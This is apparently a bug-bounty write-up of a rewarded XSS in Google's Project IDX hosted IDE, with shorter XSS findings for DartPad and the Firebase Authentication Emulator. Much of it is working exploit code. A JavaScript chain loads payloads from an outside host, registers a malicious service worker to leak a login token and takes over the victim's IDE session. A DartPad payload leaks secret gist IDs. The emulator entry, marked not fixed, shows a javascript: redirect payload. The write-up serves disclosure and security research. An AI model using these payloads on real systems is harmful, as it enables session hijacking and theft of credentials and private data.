 ```yaml
---
title: idx.google.com XSS (Awarded $3133.70)
---
```


This is a hosted development environment called Project IDX based on [Visual Studio Code](https://github.com/microsoft/vscode) like [Google Cloud Shell](https://cloud.google.com/shell/)

Feature being abused: <https://developers.google.com/idx/guides/debug-in-idx#chrome-devtools>
Its based of the Chii open source project <https://github.com/liriliri/chii/commit/0002b761737f450fe070699b6fec284d6e1e91e9>

- Create a project as simple html.  
- Once loaded, Take the <ID> from an iframe in the format `https://9000-monospace-<ID>.cloudworkstations.dev` (In a real attack this could be leaked from the network)
- Run the following from any website replacing <ID> with your own ID.

```js
// Vulnerable debugger proxy (Runs any js code you want, Fetch as the victims server)
let target = 'https://8282-monospace-<ID>.cloudworkstations.dev/proxy?url=';

// Link to our service worker
let proxy = new URL('https://terjanq.me/xss.php');
proxy.searchParams.set('ct', 'application/javascript');
proxyPayload = `
self.addEventListener("fetch", (event) => {
 let url = event.request.url;
 // Leak token from redirect since its a httponly cookie
  // Authentication is done by:
 // Redirecting the user to https://ssh.cloud.google.com/devshell/gateway/oauth?state=<value> (Cross-site, COOP, embed protection)
 // https://<PORT>-idx-<ID>.cloudworkstations.dev/_workstation/login?redirect=<value> this sets a cookie then redirects back.
 if (url.includes("_workstation/login")) {
  console.info('🎉 Leaked token: '+url);
 }
});
`;
proxy.searchParams.set('html', proxyPayload);

// Link to force a re-authenticate
let reauth = new URL('https://terjanq.me/xss.php');
reauth.searchParams.set('h[Clear-Site-Data]', '"cookies"');
reauthPayload = `
setTimeout(() => { location.href=location.origin }, 3000);
`;
reauth.searchParams.set('js', reauthPayload);

// Link to create service work
let setup = new URL('https://terjanq.me/xss.php');
setupPayload = `
navigator.serviceWorker.register("${target+encodeURIComponent(proxy.href)}");
setTimeout(() => { location.href="${target+encodeURIComponent(reauth.href)}" }, 3000);
`;
setup.searchParams.set('js', setupPayload);

// Do the stuff
location = target + encodeURIComponent(setup.href);
```
- In the console you should see a message that says "leaked token" of the format `https://8282-monospace-<ID>.cloudworkstations.dev/_workstation/login?redirect=<secret>` in a new browser go to that URL and you will be logged in to the debugger.
- You will have got a `WorkstaionJwt` from that by changing the domain of this cookie for example to `80-monospace-<ID>.cloudworkstations.dev` you can login to the IDE!

# Pointless XSS section :)

## DartPad XSS (dartpad.dev)
This is an editor for Dart code.

By abusing the XSS in `frame.html` it allowed putting interactive content on other people's websites
that use the code embed via a popup window reference which is a spoofing risk especially if providing API keys on that site is expected behavior also It's leaking injected snippets or secret gists of that site.
```js
// Please click, Opening a victim popup needs user activation
onclick = () => {
    let frame = document.createElement('iframe');
    frame.src = 'https://dartpad.dev/frame.html';
    document.body.appendChild(frame);

    payload = `
 // XSS running on the dartpad.dev origin (instead of null)
 let win = open('https://terjanq.me/xss.php?html=%3Ciframe%20src=%22https://dartpad.dev/?id=5c0e154dd50af4a9ac856908061291bc?theme=light%22%3E%3C/iframe%3E');
 setTimeout(() => {
  // Leak the secret gist ID of a cross-site embed
  alert('Leaked: ' + win[0].location.search);
 }, 2000);
`;

    frame.onload = () => {
        frame.contentWindow.postMessage({
            command: 'execute',
            js: payload
        }, '*');
    };

};

```
This was fixed in <https://github.com/dart-lang/dart-pad/pull/2943> by enforcing the`null` origin sandbox.

## Firebase Authentication Emulator XSS (localhost) Not fixed
This is a local test environment for Firebase.

<https://github.com/firebase/firebase-tools/blob/80964d04ee34b204116be6139e76ad96f427a06d/src/emula
tor/auth/widget_ui.ts#L65>
Navigates to a `javascript:` path provided in the `redirectUrl` URL parameter for example, `/emulator/auth/handler?apiKey=1&providerId=1&redirectUrl=javascript:alert(origin)&appName=1`
Other emulator XSS, <https://github.com/firebase/firebase-tools/blob/96fe35f4a38736f16a183c76a53112a7b86b2487/src/emulator/functionsEmulator.ts#L1554-L1556>
